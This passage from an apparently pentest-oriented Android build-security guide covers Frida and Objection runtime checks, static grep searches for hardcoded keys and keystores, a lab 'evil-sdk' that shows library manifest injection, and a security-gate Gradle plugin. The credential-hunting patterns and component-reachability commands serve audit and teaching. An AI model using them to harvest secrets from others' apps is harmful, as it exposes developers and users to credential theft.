    Java.enumerateLoadedClasses({
        onMatch: function (name) {
            if (!name.endsWith(".BuildConfig")) return;
            try {
                var C = Java.use(name);
                console.log("\n[BuildConfig] " + name);
                C.class.getDeclaredFields().forEach(function (f) {
                    f.setAccessible(true);
                    console.log("    " + f.getType().getSimpleName() + " " +
                                f.getName() + " = " + f.get(null));
                });
            } catch (e) { }
        },
        onComplete: function () { }
    });

    // --- 2. Every <meta-data> in the merged manifest, as the app sees it ---
    var ctx = Java.use("android.app.ActivityThread").currentApplication()
                  .getApplicationContext();
    var PM  = Java.use("android.content.pm.PackageManager");
    var pm  = ctx.getPackageManager();
    var ai  = pm.getApplicationInfo(ctx.getPackageName(), PM.GET_META_DATA.value);
    var md  = ai.metaData.value;
    if (md !== null) {
        console.log("\n[application meta-data]");
        var keys = md.keySet().toArray();
        for (var i = 0; i < keys.length; i++) {
            console.log("    " + keys[i] + " = " + md.get(keys[i]));
        }
    }

    // --- 3. The ApplicationInfo flags the BUILD decided ---
    var FLAG_DEBUGGABLE   = 0x00000002;
    var FLAG_ALLOW_BACKUP = 0x00008000;
    var FLAG_TEST_ONLY    = 0x00000100;
    console.log("\n[ApplicationInfo]");
    console.log("    packageName      = " + ai.packageName.value);
    console.log("    targetSdkVersion = " + ai.targetSdkVersion.value);
    console.log("    minSdkVersion    = " + ai.minSdkVersion.value);
    console.log("    sourceDir        = " + ai.sourceDir.value);
    console.log("    splitSourceDirs  = " + ai.splitSourceDirs.value);
    console.log("    nativeLibraryDir = " + ai.nativeLibraryDir.value);
    var flags = ai.flags.value;
    console.log("    DEBUGGABLE       = " + ((flags & FLAG_DEBUGGABLE)   !== 0));
    console.log("    ALLOW_BACKUP     = " + ((flags & FLAG_ALLOW_BACKUP) !== 0));
    console.log("    TEST_ONLY        = " + ((flags & FLAG_TEST_ONLY)    !== 0));
});
```

The `splitSourceDirs` line is the one people forget. If it is non-empty, the application was installed
from an AAB as a split set, and any static analysis you performed on `base.apk` alone was incomplete.

### 7.5 Objection

```bash
# host — Objection wraps several of the above checks
objection -g com.example.app explore

# in the objection REPL
android hooking list activities              # what the merged manifest actually declared
android hooking list services
android hooking list receivers
env                                          # data directories, from ApplicationInfo
android root simulate
```

### 7.6 MobSF

MobSF parses build-relevant configuration automatically and is a reasonable first pass, provided you
verify its output. It reports the manifest analysis (exported components, `debuggable`, `allowBackup`),
the certificate, hardcoded-secret candidates from `strings` and `resources.arsc`, and the native
library hardening flags.

> **Warning**
> MobSF's "hardcoded secrets" section has a high false-positive rate by design: it flags anything
> matching entropy and keyword heuristics, so it reports Firebase and Maps keys, Base64-encoded
> resources, and UUIDs as secrets. Treat it as a *candidate list*, and validate each candidate against
> §5.3.1's severity table before it appears in a report. Its exported-component list is likewise raw —
> it does not reach the components or assess impact. See [55-MobSF](../55-MobSF/README.md).

### 7.7 Logcat during a build-configuration investigation

```bash
# host — what the platform says at install time about a build's decisions
adb logcat -c
adb install -r app-release.apk
adb logcat -d | grep -iE "PackageManager|installd|dexopt|VerifyError|INSTALL_"

# common outcomes and their build-side cause
# INSTALL_FAILED_TEST_ONLY            -> testOnly="true": IDE-installed artefact, use adb install -t
# INSTALL_PARSE_FAILED_NO_CERTIFICATES-> signing missing, or zipalign ran after apksigner
# INSTALL_FAILED_UPDATE_INCOMPATIBLE  -> different signing key than the installed copy
# INSTALL_FAILED_INVALID_APK (splits) -> a split set installed without install-multiple
```

---

## 8. Static Analysis

This section is the mechanical counterpart of §5.5: the exact invocations. Everything here runs without
executing the build.

### 8.1 In the source repository

```bash
# host — 1. the shape of the project
find . -name "settings.gradle*" -o -name "build.gradle*" -o -name "*.versions.toml" \
     | grep -v "/build/" | sort

# host — 2. repositories and their order (dependency confusion, §5.4.1)
grep -rn -A20 "pluginManagement\|dependencyResolutionManagement\|repositories" \
     settings.gradle* build.gradle* 2>/dev/null

# host — 3. the wrapper (§5.4.4)
cat gradle/wrapper/gradle-wrapper.properties
sha256sum gradle/wrapper/gradle-wrapper.jar

# host — 4. code that runs before everything (§5.4.3)
ls -la buildSrc/ build-logic/ 2>/dev/null
find . -name "*.init.gradle*" -o -name "init.d" -type d

# host — 5. release hardening
grep -rn "minifyEnabled\|isMinifyEnabled\|shrinkResources\|isShrinkResources" --include="build.gradle*" .
grep -rn "debuggable\|isDebuggable\|testOnly\|isTestOnly" --include="build.gradle*" .
grep -rn "signingConfig" --include="build.gradle*" .

# host — 6. embedded configuration and secrets (§5.3.1)
grep -rn "buildConfigField\|resValue\|manifestPlaceholders" --include="build.gradle*" .
grep -rnIE "(PASSWORD|SECRET|TOKEN|API_?KEY|CREDENTIAL)\s*[=:]" \
     --include="*.properties" --include="build.gradle*" --include="*.toml" . | grep -v "/build/"

# host — 7. signing material and service configuration on disk
find . \( -name "*.jks" -o -name "*.keystore" -o -name "*.p12" -o -name "*.pk8" \
       -o -name "*.pem" -o -name "google-services.json" -o -name "*.mobileprovision" \) \
     -not -path "./build/*"

# host — 8. the same, in git history — where they usually still are
git log --all --diff-filter=A --name-only --pretty=format: | sort -u \
  | grep -iE "\.jks$|\.keystore$|\.p12$|\.pk8$|\.pem$|secret|credential"

# host — 9. mutable dependency versions (§5.4.6)
grep -rnE "['\"][^'\"]+:[^'\"]+:(.*\+|latest\.[a-z]+|.*-SNAPSHOT)['\"]" \
     --include="build.gradle*" --include="*.versions.toml" .
grep -rn "jitpack.io" --include="*.gradle*" --include="*.toml" .

# host — 10. suppressed quality gates
grep -rn "abortOnError\|checkReleaseBuilds\|disable\s*+*=\|lintOptions\|lint {" --include="build.gradle*" .

# host — 11. keep rules that defeat obfuscation
grep -rn "^-keep class \*\*\|^-dontobfuscate\|^-dontshrink\|^-dontoptimize" \
     --include="*.pro" --include="proguard*.txt" .

# host — 12. native hardening
grep -rn "cppFlags\|cFlags\|CMAKE_CXX_FLAGS\|target_link_options\|add_link_options" \
     --include="build.gradle*" --include="CMakeLists.txt" --include="*.mk" .
```

### 8.2 In the manifest (merged, not the source one)

```bash
# host — always analyse the merged manifest; the source manifest is not what shipped
apktool d -f app-release.apk -o out/
MAN=out/AndroidManifest.xml

grep -nE 'android:exported="true"'          "$MAN"
grep -nE 'android:debuggable|android:testOnly|android:allowBackup' "$MAN"
grep -nE 'usesCleartextTraffic|networkSecurityConfig'              "$MAN"
grep -nE '<uses-permission'                 "$MAN" | sort
grep -nE 'android:protectionLevel'          "$MAN"
grep -nE '<provider'                        "$MAN"
grep -nE 'android:grantUriPermissions|<grant-uri-permission' "$MAN"
grep -nE 'android:taskAffinity|android:launchMode'           "$MAN"
grep -nE '<meta-data'                       "$MAN"

# host — the binary form, without apktool, straight from the APK
aapt2 dump xmltree app-release.apk --file AndroidManifest.xml | less
aapt2 dump badging app-release.apk
```

Cross-reference each finding with [32-Manifest](../32-Manifest/README.md), which treats every attribute
in detail.

### 8.3 In the APK's resources and assets

```bash
# host — the resource table, an under-searched place for secrets (§3.16)
aapt2 dump resources app-release.apk > res.txt
grep -inE "key|token|secret|password|https?://|firebase|api" res.txt | head -40

# host — google-services.json lands here, as string resources
grep -inE "google_api_key|google_app_id|firebase_database_url|project_id" res.txt

# host — raw assets
unzip -l app-release.apk | grep "^.*assets/"
unzip -o app-release.apk 'assets/*' -d assets_out/
grep -rnIE "BEGIN (RSA |EC |)PRIVATE KEY|api[_-]?key|bearer " assets_out/ | head
file assets_out/assets/* | grep -v "ASCII text"     # embedded binaries, DEX, ZIPs
```

### 8.4 In the DEX

```bash
# host
unzip -o app-release.apk 'classes*.dex' -d dex/
strings -n 10 dex/*.dex | grep -E "^https?://" | sort -u | head -40
strings -n 12 dex/*.dex | grep -inE "sk_live_|AKIA[0-9A-Z]{16}|AIza[0-9A-Za-z_-]{35}|xox[baprs]-|ghp_"
strings -n 16 dex/*.dex | grep -E "-----BEGIN"

# host — decompile and search semantically
jadx -d out --deobf app-release.apk
grep -rn --include=*.java -E "BuildConfig\.|getIdentifier\(|Base64\.decode" out/sources/ | head -30
```

### 8.5 In native libraries

```bash
# host — hardening posture of every shipped .so, driven by build flags (§3.17)
unzip -o app-release.apk 'lib/*' -d nat/
for so in $(find nat -name '*.so'); do
  echo "=== $so"
  file "$so"
  readelf -h "$so" | grep -E "Type:"                        # DYN = PIE
  readelf -d "$so" | grep -E "BIND_NOW|RELRO|RUNPATH|RPATH"
  readelf -sW "$so" 2>/dev/null | grep -c "__stack_chk_fail" | sed 's/^/  canary refs: /'
  readelf -sW "$so" 2>/dev/null | grep -c "_chk@"           | sed 's/^/  FORTIFY refs: /'
  nm -D --defined-only "$so" 2>/dev/null | grep -c " T Java_" | sed 's/^/  JNI exports: /'
done
```

`checksec`-style tooling automates this; the manual form is above so you can explain any tool's answer.
See [15-Native-Code](../15-Native-Code/README.md).

### 8.6 Automated dependency analysis

```bash
# host — OWASP Dependency-Check as a Gradle plugin (requires running the build)
./gradlew dependencyCheckAnalyze
open build/reports/dependency-check-report.html

# host — an SBOM, which is the artefact a client's supply-chain programme actually wants
./gradlew cyclonedxBom          # with the CycloneDX Gradle plugin applied

# host — offline: extract coordinates and query OSV without running the build
grep -rhoE "['\"][a-zA-Z0-9._-]+:[a-zA-Z0-9._-]+:[0-9][^'\"]*['\"]" \
     --include="build.gradle*" --include="*.versions.toml" . \
  | tr -d "'\"" | sort -u > coords.txt
wc -l coords.txt
```

> **Warning**
> A dependency scanner reports the **declared** graph. It cannot see that a library was included via
> `compileOnly` and is therefore absent from the APK, and it cannot see a vendored copy of a
> vulnerable library that was shaded into the app under a different package name. Confirm every
> high-severity dependency finding against the shipped artefact — find the vulnerable class in the DEX
> — before you report it. "Version 2.4.1 is vulnerable per NVD" without a reachability argument is the
> most-disputed category of finding in mobile reports, and rightly so.

### 8.7 Static analysis of `Android.bp` trees

For firmware and OEM work, the platform equivalents:

```bash
# host — in an AOSP or vendor tree
# every escape hatch where a shell command can appear
grep -rn --include=Android.bp -A5 "genrule\s*{" . | grep -n "cmd:" | head -40

# every prebuilt binary with no corresponding source
grep -rn --include=Android.bp -E "^\s*(java_import|android_app_import|cc_prebuilt_library" . | head
grep -rn --include=Android.mk "include \$(BUILD_PREBUILT)" . | head

# every app signed with the platform key
grep -rn --include=Android.bp -B5 'certificate:\s*"platform"' . | grep "name:" | head -40

# every privileged app
grep -rn --include=Android.bp -B10 "privileged:\s*true" . | grep "name:" | head -40

# native modules WITHOUT CFI on a tree where you would expect it
grep -rLn --include=Android.bp "cfi:\s*true" $(grep -rln --include=Android.bp "cc_library" .) | head

# legacy Make shell escapes
grep -rn --include=Android.mk '\$(shell\|LOCAL_POST_INSTALL_CMD' . | head -30
```

---

## 9. Examples

Five worked examples of increasing realism. Runnable source for each is in
[`examples/`](examples/).

### 9.1 Simple — a minimal app build file, annotated line by line

The point of this example is to be able to read *any* `build.gradle.kts` and say what it produces.

```kotlin
// examples/01-minimal-app/app/build.gradle.kts
plugins {
    id("com.android.application")             // AGP: registers all Android tasks
    id("org.jetbrains.kotlin.android")        // Kotlin compilation
}

android {
    namespace  = "com.example.minimal"        // package of generated R and BuildConfig
    compileSdk = 35                           // the android.jar we compile against

    defaultConfig {
        applicationId = "com.example.minimal" // on-device identity; the sandbox key
        minSdk        = 24                    // oldest supported runtime
        targetSdk     = 35                    // behaviour opt-in level
        versionCode   = 1
        versionName   = "1.0"
    }

    buildTypes {
        getByName("release") {
            isMinifyEnabled = true            // run R8
            proguardFiles(
                getDefaultProguardFile("proguard-android-optimize.txt"),
                "proguard-rules.pro"
            )
        }
    }

    buildFeatures { buildConfig = true }       // required explicitly from AGP 8.0
    compileOptions {
        sourceCompatibility = JavaVersion.VERSION_17
        targetCompatibility = JavaVersion.VERSION_17
    }
    kotlinOptions { jvmTarget = "17" }
}

dependencies {
    implementation("androidx.core:core-ktx:1.13.1")
    implementation("androidx.appcompat:appcompat:1.7.0")
}
```

```bash
# host — build it and inspect what came out
./gradlew :app:assembleRelease
aapt2 dump badging app/build/outputs/apk/release/app-release-unsigned.apk
unzip -l  app/build/outputs/apk/release/app-release-unsigned.apk
cat app/build/outputs/mapping/release/configuration.txt | head -40
```

**What to observe.** The APK is *unsigned*, because no `signingConfig` was declared for `release` —
AGP will not silently sign a release build with the debug key. `configuration.txt` already contains
dozens of keep rules you never wrote: they came from `proguard-android-optimize.txt`, from AGP's
generated `aapt_rules.txt`, and from each AndroidX AAR's `proguard.txt`.

### 9.2 Intermediate — prove that a library injects components into your manifest

This is the experiment that makes §3.10 concrete, and it takes ten minutes.

```
examples/02-manifest-injection/
├── app/
│   ├── build.gradle.kts
│   └── src/main/AndroidManifest.xml       <- three lines; no components but MainActivity
└── evil-sdk/                              <- a local library module playing the SDK role
    ├── build.gradle.kts
    └── src/main/AndroidManifest.xml       <- injects a receiver and a permission
```

```xml
<!-- examples/02-manifest-injection/evil-sdk/src/main/AndroidManifest.xml -->
<manifest xmlns:android="http://schemas.android.com/apk/res/android">
    <uses-permission android:name="android.permission.ACCESS_FINE_LOCATION" />
    <application>
        <receiver
            android:name="com.evil.sdk.CommandReceiver"
            android:exported="true">
            <intent-filter>
                <action android:name="com.evil.sdk.EXECUTE" />
            </intent-filter>
        </receiver>
        <activity
            android:name="com.evil.sdk.RouterActivity"
            android:exported="true">
            <intent-filter>
                <action android:name="android.intent.action.VIEW" />
                <category android:name="android.intent.category.DEFAULT" />
                <category android:name="android.intent.category.BROWSABLE" />
                <data android:scheme="evilsdk" />
            </intent-filter>
        </activity>
    </application>
</manifest>
```

```kotlin
// examples/02-manifest-injection/evil-sdk/src/main/java/com/evil/sdk/CommandReceiver.kt
package com.evil.sdk

import android.content.BroadcastReceiver
import android.content.Context
import android.content.Intent
import android.util.Log

class CommandReceiver : BroadcastReceiver() {
    override fun onReceive(context: Context, intent: Intent) {
        // This runs inside the HOST app's process, with the HOST app's UID and permissions.
        val uid  = context.applicationInfo.uid
        val pkg  = context.packageName
        val data = context.filesDir.absolutePath
        Log.w("EvilSDK", "Executing as uid=$uid pkg=$pkg dataDir=$data " +
                         "cmd=${intent.getStringExtra("cmd")}")
    }
}
```

```bash
# host — build and observe
./gradlew :app:assembleDebug

# 1. The developer's manifest: one activity.
cat app/src/main/AndroidManifest.xml

# 2. The merged manifest: three components and a location permission.
find app/build/intermediates -name AndroidManifest.xml -path "*erged*" -exec cat {} \;

# 3. The provenance of each addition, with coordinates.
cat app/build/outputs/logs/manifest-merger-debug-report.txt

# 4. Prove reachability from another security context.
adb install -r app/build/outputs/apk/debug/app-debug.apk
adb shell am broadcast -a com.evil.sdk.EXECUTE \
    -n com.example.host/com.evil.sdk.CommandReceiver --es cmd "whoami"
adb shell am start -a android.intent.action.VIEW -d "evilsdk://open"
adb logcat -d -s EvilSDK
```

**Then apply the fix and repeat**, so you see the merger obey the markers:

```xml
<!-- examples/02-manifest-injection/app/src/main/AndroidManifest.xml -->
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
          xmlns:tools="http://schemas.android.com/tools">
    <uses-permission android:name="android.permission.ACCESS_FINE_LOCATION"
                     tools:node="remove" />
    <application android:name=".App">
        <activity android:name=".MainActivity" android:exported="true">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />
                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
        <receiver android:name="com.evil.sdk.CommandReceiver" tools:node="remove" />
        <activity android:name="com.evil.sdk.RouterActivity"
                  android:exported="false"
                  tools:replace="android:exported" />
    </application>
</manifest>
```

**Success criterion.** `adb shell am broadcast …` now fails with a security exception, and the
merger report shows `MERGED from ... tools:node="remove"` for the receiver.

### 9.3 Advanced — a build-time gate that fails the build on a security regression

Detecting a misconfiguration in a pentest is worth one report. Making it impossible is worth every
future report. This is the remediation you hand a client.

```kotlin
// examples/03-build-gate/build-logic/src/main/kotlin/SecurityGatePlugin.kt
// A convention plugin that enforces release-build invariants at build time.
// Apply with: plugins { id("com.acme.security-gate") }

import com.android.build.api.variant.ApplicationAndroidComponentsExtension
import org.gradle.api.DefaultTask
import org.gradle.api.Plugin
import org.gradle.api.Project
import org.gradle.api.file.RegularFileProperty
import org.gradle.api.tasks.InputFile
import org.gradle.api.tasks.TaskAction

abstract class AuditMergedManifestTask : DefaultTask() {

    @get:InputFile
    abstract val mergedManifest: RegularFileProperty

    /** Components the security team has reviewed and accepted as exported. */
    private val allowedExported = setOf(
        "com.acme.app.MainActivity",
        "com.acme.app.ShareTargetActivity"
    )

    /** Permissions the product is allowed to request. */
    private val allowedPermissions = setOf(
        "android.permission.INTERNET",
        "android.permission.CAMERA",
        "android.permission.POST_NOTIFICATIONS"
    )

    @TaskAction
    fun audit() {
        val xml = mergedManifest.get().asFile.readText()

        val exported = Regex("""<(activity|service|receiver|provider)\b[^>]*?""" +
                             """android:name="([^"]+)"[^>]*?android:exported="true"""",
                             RegexOption.DOT_MATCHES_ALL)
            .findAll(xml).map { it.groupValues[2] }.toSet()

        val permissions = Regex("""<uses-permission[^>]*android:name="([^"]+)"""")
            .findAll(xml).map { it.groupValues[1] }.toSet()

        val problems = buildList {
            (exported - allowedExported).forEach {
                add("Unreviewed exported component: $it")
            }
            (permissions - allowedPermissions).forEach {
                add("Unreviewed permission: $it")
            }
            if (xml.contains("""android:debuggable="true"""")) {
                add("Release manifest is debuggable")
            }
            if (xml.contains("""android:usesCleartextTraffic="true"""")) {
                add("Cleartext traffic permitted")
            }
            if (xml.contains("""android:allowBackup="true"""")) {
                add("allowBackup is enabled")
            }
        }

        if (problems.isNotEmpty()) {
            throw org.gradle.api.GradleException(
                "Security gate failed:\n" + problems.joinToString("\n") { "  - $it" } +
                "\n\nIf a change is intentional, update the allow-list in SecurityGatePlugin " +
                "in the same pull request so the security team reviews it."
            )
        }
        logger.lifecycle("Security gate passed: ${exported.size} exported components, " +
                         "${permissions.size} permissions, all reviewed.")
    }
}

class SecurityGatePlugin : Plugin<Project> {
    override fun apply(project: Project) {
        val android = project.extensions
            .getByType(ApplicationAndroidComponentsExtension::class.java)

        android.onVariants(android.selector().withBuildType("release")) { variant ->

            // Invariant 1 — the release variant must never be debuggable.
            check(!variant.debuggable) {
                "Release variant '${variant.name}' is debuggable. Refusing to build."
            }

            // Invariant 2 — the merged manifest must contain only reviewed surface.
            val audit = project.tasks.register(
                "audit${variant.name.replaceFirstChar { it.uppercase() }}Manifest",
                AuditMergedManifestTask::class.java
            ) { t ->
                t.mergedManifest.set(
                    variant.artifacts.get(
                        com.android.build.api.artifact.SingleArtifact.MERGED_MANIFEST
                    )
                )
            }
            project.tasks.named("assemble${variant.name.replaceFirstChar { it.uppercase() }}") {
                it.dependsOn(audit)
            }
        }
    }
}
```

```bash
# host — the gate in action
./gradlew :app:assembleRelease
# > Security gate failed:
# >   - Unreviewed exported component: com.vendor.engage.DeepLinkRouterActivity
# >   - Unreviewed permission: android.permission.ACCESS_FINE_LOCATION
```

> **Mental Model**
> This inverts the usual relationship between security and the build. Normally the build produces an
> artefact and security inspects it afterwards, once per release, by hand. A gate makes the *security
> property* an input to the build, so an SDK upgrade that silently adds an exported receiver fails the
> pull request that introduced it, with the component's name in the error message, three months before
> a pentest would have found it. When a client asks "how do we stop this recurring?", this is the
> answer.

### 9.4 Real application — auditing a repository you have just been handed

A condensed transcript of the first hour of a real source-assisted engagement.

```bash
# host — 0. Do NOT run the build yet. Read first.
cd client-app

# 1. Shape
find . -name "*.gradle*" -not -path "./build/*" -not -path "*/build/*" | sort
cat settings.gradle.kts
# FINDING candidate: repositories { google(); mavenCentral(); maven("https://jitpack.io") }
#                    with no content filters, and internal group com.client.* resolved here.

# 2. Wrapper
cat gradle/wrapper/gradle-wrapper.properties
# distributionUrl=https\://services.gradle.org/distributions/gradle-8.5-bin.zip
# FINDING: no distributionSha256Sum.
sha256sum gradle/wrapper/gradle-wrapper.jar   # compare to gradle.org/release-checksums

# 3. Pre-execution code
ls buildSrc build-logic 2>/dev/null
grep -rnE "exec\(|ProcessBuilder|URL\(|System\.getenv" buildSrc/ 2>/dev/null

# 4. Release hardening
grep -rn -A12 'getByName("release")' app/build.gradle.kts
# isMinifyEnabled = true            good
# isShrinkResources = false         minor
# signingConfig = signingConfigs.getByName("release")

# 5. Where do the signing credentials come from?
grep -rn -A8 "signingConfigs" app/build.gradle.kts
grep -rn "STORE_PASSWORD\|KEY_PASSWORD" gradle.properties local.properties 2>/dev/null
# FINDING: gradle.properties (committed) contains RELEASE_STORE_PASSWORD in plaintext.
git log --oneline -- gradle.properties | tail -3     # committed 2019, never rotated

# 6. Embedded configuration
grep -rn "buildConfigField\|resValue" --include="build.gradle*" .
# buildConfigField("String", "SEGMENT_WRITE_KEY", "\"...\"")   -> medium
# buildConfigField("String", "MAPS_KEY",          "\"AIza...\"") -> verify restrictions

# 7. Dependencies — now we must run the build; do it in a container with no credentials
docker run --rm -v "$PWD":/w -w /w -u "$(id -u)" gradle:8.5-jdk17 \
  gradle :app:dependencies --configuration releaseRuntimeClasspath > deps.txt
grep -cE "^[+\\\\]" deps.txt          # transitive count: 312 for 24 declared
grep -E "jitpack|com\.github\." deps.txt
# FINDING: implementation("com.github.someuser:chart-lib:master-SNAPSHOT")

# 8. The real component surface
docker run --rm -v "$PWD":/w -w /w -u "$(id -u)" gradle:8.5-jdk17 gradle :app:assembleRelease
grep -c "ADDED from \[" app/build/outputs/logs/manifest-merger-release-report.txt   # 47
grep "ADDED from \[" app/build/outputs/logs/manifest-merger-release-report.txt \
  | grep -oE "\[[^]]+\]" | sort | uniq -c | sort -rn
#  19 [com.vendor:engage-sdk:2.7.0]
#  11 [androidx.startup:startup-runtime:1.1.1]
#   ...

# 9. What R8 was actually told
grep -nE "^-keep class \*\*|^-dontobfuscate" app/build/outputs/mapping/release/configuration.txt
# FINDING: -keep class ** { *; } contributed by com.vendor:engage-sdk consumer rules.
#          Obfuscation is effectively disabled app-wide by one dependency.
```

That hour produced five findings — an unfiltered repository set, a wrapper with no checksum, a
committed keystore password, a mutable JitPack dependency, and obfuscation disabled by a third-party
consumer rule — none of which required opening a single line of application code.

### 9.5 Enterprise — a hardened, reviewable build configuration

The target state, written out in full, so you can diff a client's project against it.

```kotlin
// settings.gradle.kts
pluginManagement {
    repositories {
        gradlePluginPortal { content { includeGroupByRegex("com\\.gradle(\\..*)?") } }
        google {
            content {
                includeGroupByRegex("com\\.android(\\..*)?")
                includeGroupByRegex("com\\.google(\\..*)?")
                includeGroupByRegex("androidx(\\..*)?")
            }
        }
        mavenCentral()
    }
}

dependencyResolutionManagement {
    // No module may declare its own repositories. One place, reviewed once.
    repositoriesMode.set(RepositoriesMode.FAIL_ON_PROJECT_REPOS)
    repositories {
        // Internal groups: internal repository ONLY. Closes dependency confusion.
        maven {
            url = uri("https://artifactory.acme.internal/artifactory/maven-release/")
            content { includeGroupByRegex("com\\.acme(\\..*)?") }
            credentials(PasswordCredentials::class)
            authentication { create<BasicAuthentication>("basic") }
        }
        google {
            content {
                includeGroupByRegex("com\\.android(\\..*)?")
                includeGroupByRegex("com\\.google(\\..*)?")
                includeGroupByRegex("androidx(\\..*)?")
            }
        }
        mavenCentral { content { excludeGroupByRegex("com\\.acme(\\..*)?") } }
        // No jitpack. Forks are reviewed and republished internally.
    }
}

rootProject.name = "acme-android"
include(":app", ":core", ":feature:payments")
```

```toml
# gradle/libs.versions.toml — one reviewed inventory, exact versions only
[versions]
agp        = "8.5.2"
kotlin     = "2.0.20"
coreKtx    = "1.13.1"
okhttp     = "4.12.0"

[libraries]
androidx-core-ktx = { module = "androidx.core:core-ktx", version.ref = "coreKtx" }
okhttp            = { module = "com.squareup.okhttp3:okhttp", version.ref = "okhttp" }

[plugins]
android-application = { id = "com.android.application", version.ref = "agp" }
kotlin-android      = { id = "org.jetbrains.kotlin.android", version.ref = "kotlin" }
```

```kotlin
// app/build.gradle.kts
plugins {
    alias(libs.plugins.android.application)
    alias(libs.plugins.kotlin.android)
    id("com.acme.security-gate")                      // the plugin from §9.3
}

android {
    namespace  = "com.acme.app"
    compileSdk = 35

    defaultConfig {
        applicationId = "com.acme.app"
        minSdk        = 26
        targetSdk     = 35
        versionCode   = providers.environmentVariable("BUILD_NUMBER").orNull?.toInt() ?: 1
        versionName   = "5.1.0"
        // Endpoints only. No credentials, obfuscated or otherwise.
        buildConfigField("String", "API_BASE", "\"https://api.acme.com\"")
        ndk { abiFilters += listOf("arm64-v8a") }
    }

    signingConfigs {
        create("release") {
            // Supplied by the CI secret store; absent on developer machines by design.
            storeFile     = providers.environmentVariable("ANDROID_KEYSTORE_PATH")
                                .orNull?.let(::file)
            storePassword = providers.environmentVariable("ANDROID_KEYSTORE_PASSWORD").orNull
            keyAlias      = providers.environmentVariable("ANDROID_KEY_ALIAS").orNull
            keyPassword   = providers.environmentVariable("ANDROID_KEY_PASSWORD").orNull
            enableV1Signing = false        // minSdk 26, so v1 is unnecessary
            enableV2Signing = true
            enableV3Signing = true
            enableV4Signing = true
        }
    }

    buildTypes {
        debug {
            applicationIdSuffix = ".debug"
            isMinifyEnabled     = false
        }
        release {
            isMinifyEnabled    = true
            isShrinkResources  = true
            isDebuggable       = false
            signingConfig      = signingConfigs.getByName("release")
            proguardFiles(
                getDefaultProguardFile("proguard-android-optimize.txt"),
                "proguard-rules.pro"
            )
            ndk { debugSymbolLevel = "SYMBOL_TABLE" }   // uploaded to Play, not shipped
            vcsInfo { include = false }                 // do not leak the internal repo URL
        }
    }

    buildFeatures { buildConfig = true }
    packaging { jniLibs { useLegacyPackaging = false } }
    lint {
        abortOnError = true
        warningsAsErrors = true
        checkReleaseBuilds = true
        disable += setOf("GradleDependency")            // noise only; nothing security-relevant
    }
    dependenciesInfo {
        // Do not embed the dependency blob Play uses; it is also an inventory for an attacker.
        includeInApk = false
        includeInBundle = true
    }
}

dependencies {
    implementation(libs.androidx.core.ktx)
    implementation(libs.okhttp)
}

// Reproducibility (§3.20)
tasks.withType<AbstractArchiveTask>().configureEach {
    isPreserveFileTimestamps = false
    isReproducibleFileOrder  = true
}
```

```properties
# gradle.properties — no credentials, ever
org.gradle.jvmargs=-Xmx4g -XX:MaxMetaspaceSize=1g
org.gradle.parallel=true
org.gradle.caching=true
org.gradle.configuration-cache=true
android.useAndroidX=true
android.nonTransitiveRClass=true
android.enableR8.fullMode=true
```

Alongside these, the project holds `gradle/verification-metadata.xml` (checksums and PGP signatures for
every artefact, regenerated deliberately and reviewed in pull requests), a CI pipeline that builds in a
credential-free container and signs in a separate, minimal-permission job, and the `security-gate`
plugin from §9.3 applied to every application module.

---

## 10. Common Interview Questions

### Beginner

**Q: What are the two build systems in the Android world, and what does each produce?**
The platform build (Soong/Blueprint plus legacy Kati/Make, driven by `m` after `lunch`) builds AOSP
itself and produces partition images such as `system.img` and `vendor.img`, framework JARs and the
compiled SELinux policy. The app build (Gradle plus the Android Gradle Plugin) builds one application
and produces an `.apk` or an `.aab`. They share no code and no concepts; an app developer never runs
Soong.

**Q: What is the difference between `namespace` and `applicationId`?**
`namespace` is the Java/Kotlin package of the generated `R` and `BuildConfig` classes and exists only at
compile time. `applicationId` is the application's identity on the device and in the store: it
determines the data directory, the sandbox mapping, and what a `PackageManager` query returns. Only
`applicationId` can vary per build variant.

**Q: What does `minifyEnabled true` actually do?**
It causes R8 to run instead of D8. R8 shrinks (removes unreachable code), optimises, obfuscates
(renames classes, methods and fields) and translates to DEX in a single pass, and it writes
`mapping.txt` so stack traces can be de-obfuscated later. Without it, D8 only translates.

**Q: Why can the same source produce different APKs?**
Because build type, product flavour and source set together define a *variant*, and each variant has
its own manifest, resources, sources, dependencies and build settings. `debug` and `release` of the same
code are genuinely different programs.

**Q: What is `zipalign` for and when must it run?**
It adjusts padding inside the ZIP so uncompressed entries start at aligned offsets, which lets Android
memory-map them directly. It must run **before** signing, because v2 and later signature schemes cover
the exact byte layout of the file.

### Intermediate

**Q: An APK contains an exported `BroadcastReceiver` that appears nowhere in the source you were given. Explain.**
The manifest merger combined the application's manifest with the manifest of every library in the
dependency graph. A library's element that has no counterpart in the app's manifest is added verbatim,
so an SDK can add components, `<uses-permission>` entries, providers and `<queries>` without the
developer writing a line. `app/build/outputs/logs/manifest-merger-<variant>-report.txt` names the
element's source file *and its Maven coordinate*.

**Q: Explain `implementation` versus `api` versus `compileOnly`.**
`implementation` puts the dependency on your compile classpath and in the APK, but not on consumers'
compile classpath. `api` does the same and additionally exposes it to consumers — a transitive trust
declaration. `compileOnly` puts it on the compile classpath only: it is **not packaged**, so any runtime
use throws `NoClassDefFoundError`. Practically, seeing a dependency in `build.gradle` does not prove it
is in the APK, and a dependency in the APK need not appear in `build.gradle` at all if it is transitive.

**Q: A developer says the API key is safe because the app is obfuscated. Respond.**
Obfuscation renames identifiers; it does not alter string contents. A `buildConfigField` string is a
`static final` compile-time constant, so `javac` inlines it at every use site and the literal appears in
the DEX string pool. `strings classes.dex | grep` finds it in a second. No configuration of ProGuard or
R8 makes a shipped constant secret. The correct question is what the key authorises and who can revoke
it; if it grants real backend authority, it must be moved behind the developer's own server.

**Q: How do you tell whether an APK was built as debug or release, from the file alone?**
The two reliable discriminators are the signing certificate (`apksigner verify --print-certs`; a subject
of `CN=Android Debug` is conclusive) and the `debuggable` flag (`aapt2 dump badging | grep
application-debuggable`). Obfuscated names are only a hint, because `minifyEnabled` is an independent
build-type setting and plenty of release builds ship unobfuscated.

**Q: What is `tools:node="remove"` and what does it *not* do?**
It is a manifest-merger instruction that deletes a lower-priority element — typically one injected by a
library — from the merged manifest. It does not remove the library's *code* from the APK. If the SDK's
initialisation expects the component, the app crashes at runtime, so the change must be tested; the
durable fix is usually to remove or replace the SDK.

**Q: Why is `m snod` useful to a platform security researcher?**
It repacks `system.img` from the current contents of `out/target/product/<device>/system/` without
re-deriving dependencies. That gives a patch-flash-test loop of about a minute rather than a full
